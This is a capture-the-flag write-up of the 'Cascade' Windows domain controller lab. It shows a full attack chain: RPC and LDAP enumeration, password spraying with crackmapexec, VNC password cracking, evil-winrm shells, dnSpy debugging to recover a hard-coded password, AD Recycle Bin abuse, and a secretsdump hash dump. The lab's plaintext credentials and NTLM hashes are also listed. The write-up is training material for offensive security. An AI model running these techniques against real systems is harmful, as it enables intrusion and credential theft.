# Cascade


#Powershell #LDAP #DotNet #SQLite #TightVNC #WinRM #RPC #Web #Network #VulnerabilityAssessment #ActiveDirectory #Protocols #Crypography #SecurityTools #Reversing #Authentication #SMB #DNSPY #Reconnaissance #UserEnumeration #PasswordReuse #ClearTextCredentials #InformationDisclosure #WeakCyptography #HardCodedCredentials

## Summary
### System Information
```text
IP: 10.10.10.182
OS: Windows
Hostname: CASC-DC1
```

### Credentials
```text
r.thompson:rY4n5eva
s.smith:sT333ve2
arksvc:w3lc0meFr31nd
Administrator:baCT3r1aN00dles
```

### Hashes
```text
cascade.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:7c2ea40b06d267f1557a09ac086b4487:::
cascade.local\CascGuest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3a1b37192392d74e86d04242288dc147:::
cascade.local\arksvc:1106:aad3b435b51404eeaad3b435b51404ee:10ffc991edaa4635cf81eb91762420cb:::
cascade.local\s.smith:1107:aad3b435b51404eeaad3b435b51404ee:b48b49789458698abadc119c8e310703:::
cascade.local\r.thompson:1109:aad3b435b51404eeaad3b435b51404ee:63251f7b1bada5082e5ffb18261ba28f:::
cascade.local\util:1111:aad3b435b51404eeaad3b435b51404ee:49a914ea7201025aeff21cd858ec7d66:::
cascade.local\j.wakefield:1116:aad3b435b51404eeaad3b435b51404ee:13ae5d7704258917054d662d016eab60:::
cascade.local\s.hickson:1121:aad3b435b51404eeaad3b435b51404ee:2776416ceb426c515cab11bb8411067b:::
cascade.local\j.goodhand:1122:aad3b435b51404eeaad3b435b51404ee:1d6eb7e45708504e0a9646b7aea9fc9b:::
cascade.local\a.turnbull:1124:aad3b435b51404eeaad3b435b51404ee:1d6eb7e45708504e0a9646b7aea9fc9b:::
cascade.local\e.crowe:1127:aad3b435b51404eeaad3b435b51404ee:95d4f729c16ae37b910317d665ba2215:::
cascade.local\b.hanson:1128:aad3b435b51404eeaad3b435b51404ee:5da61ebae419b915627f25f101fe6b1b:::
cascade.local\d.burman:1129:aad3b435b51404eeaad3b435b51404ee:5da61ebae419b915627f25f101fe6b1b:::
cascade.local\BackupSvc:1130:aad3b435b51404eeaad3b435b51404ee:c27e154566c4788326fce339f4b55491:::
cascade.local\j.allen:1134:aad3b435b51404eeaad3b435b51404ee:64928a685f9a995045f8c04bbf86881d:::
cascade.local\i.croft:1135:aad3b435b51404eeaad3b435b51404ee:431682a8242a237e805badacab95b0e4:::
CASC-DC1$:1001:aad3b435b51404eeaad3b435b51404ee:936630046a7507caa200d6c7f48fd45c:::
```

### Ports
```text
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-11 10:42:08Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
```

***

## Enumeration
### NMAP

```bash
nmap -sC -sV -v -T4 -Pn -oN scans/nmap.txt 10.10.10.182
```

```text
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-08-11 10:42:08Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
```

We can see that the domain is `cascade.local` and the hostname is `casc-dc1`. Let's add these hostnames to `/etc/hosts`.

### RPC
We can authenticate via RPC with a null session.

```bash
rpcclient -U '' -N cascade.htb
```

We can use `enumdomusers` to get a list of users on the machine.


Add these to a user list.

### LDAP
If we enumerate LDAP we find a password.

```bash
ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' | grep -i pwd
```


We can identify the user it corresponds to.

```bash
ldapsearch -x -H ldap://cascade.local -b 'DC=cascade,DC=local' | grep -i cascadelegacypwd: -B 10
```


It looks like base64, let's decode it.

```bash
echo 'clk0bjVldmE=' | base64 -d
```

```text
r.thompson:rY4n5eva
```

We can confirm these credentials are valid using `crackmapexec`.

```bash
crackmapexec smb cascade.local -u userlist.txt -p 'rY4n5eva' --shares
```



### SMB
We're able to view some shares. We are only able to view the `IT ` directory. Let's download all files.

```bash
smbclient -U 'cascade.local/r.thompson%rY4n5eva' //cascade.local/Data
```



### TightVNC
In the `/Temp/s.smith/` directory is a registry file for TightVNC which looks to contain an encoded password.


It looks like there's a [GitHub repository]([jeroennijhof/vncpwd: VNC Password Decrypter (github.com)](https://github.com/jeroennijhof/vncpwd)) that has a tool to crack this password.

```bash
git clone https://github.com/jeroennijhof/vncpwd.git
cd vncpwd
gcc -o vncpwd vncpwd.c d3des.c 
```

Before we run it, we need to get the password into a format that is recognised.

```bash
echo "6b,cf,2a,4b,6e,5a,ca,0f" | tr -d ',' | xxd -r -p > encoded_tightvnc_password.txt
```

Now we can crack the password.

```bash
./vncpwd encoded_tightvnc_password.txt
```



## Shell as s.smith
If we password spray once again, we find these credentials are valid for the user `s.smith`.



```text
s.smith:sT333ve2
```

We can use `evil-winrm` to login.

```bash
evil-winrm -i cascade.local -u s.smith -p sT333ve2
```



### User.txt

```powershell
cat user.txt;ipconfig
```


## Shell as ArkSvc

### Bloodhound
Before moving on, let's dump domain objects and load up Bloodhound to help figure out where to move next.

```bash
bloodhound-python -c All -u s.smith -p 'sT333ve2' -d cascade.local -dc casc-dc1.cascade.local -ns 10.10.10.182
```


Nothing seems to stick out, we can enumerate more on target itself.

### Users and Groups
If we enumerate `s.smith`'s user, we can see a few non standard groups.


Looks like it gives permission to an Audit network share.



### SMB
Looks like there is a .NET application.

```bash
smbclient -U 'cascade.local/s.smith%sT333ve2' //cascade.local/Audit\$
```


### Source Code Analysis

In the `RunAudit.bat` file we can see that `CascAudit.exe` runs with arguments pointing to a database file.



Let's load `CascAudit.exe` into dnSpy and take a look at the code.



The important part of the code looks to be this snippet where the password is decrypted from the database.


Let's try debugging the program and setting up a breakpoint so it doesn't error out when it realises it cannot connect to LDAP. Then we should be able to read all the variable values including the decrypted password.

Make sure to set an argument pointing to the `Audit.db` database file.



Here we get a list of all the variables and their values.



As we can see, we've also got the plaintext password for `ArkSvc`.

```text
arksvc:w3lc0meFr31nd
```

We're able to get a shell.

```bash
evil-winrm -i cascade.local -u arksvc -p w3lc0meFr31nd 
```


## Shell as SYSTEM

### AD Recycle Bin
If we look at the groups membership for `ArkSvc` we see an interesting group `AD Recycle Bin`.



With these permissions we are able to recover deleted AD domain objects. Let's have a look at them.

```powershell
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

We're able to find a `TempAdmin` account with the `cascadeLegacyPwd` attribute set. We can decode it using base64.


```bash
echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
```



The credentials are invalid for the `TempAdmin` account but are valid for the `Administrator` account.

```bash
crackmapexec smb cascade.local -u Administrator -p baCT3r1aN00dles
```


### Shell
```bash
evil-winrm -i cascade.local -u Administrator -p baCT3r1aN00dles
```



### Root.txt
```powershell
cat root.txt;ipconfig
```



## Post Exploitation
```bash
impacket-secretsdump 'cascade.local/Administrator:baCT3r1aN00dles'@cascade.local -outputfile hashes
```

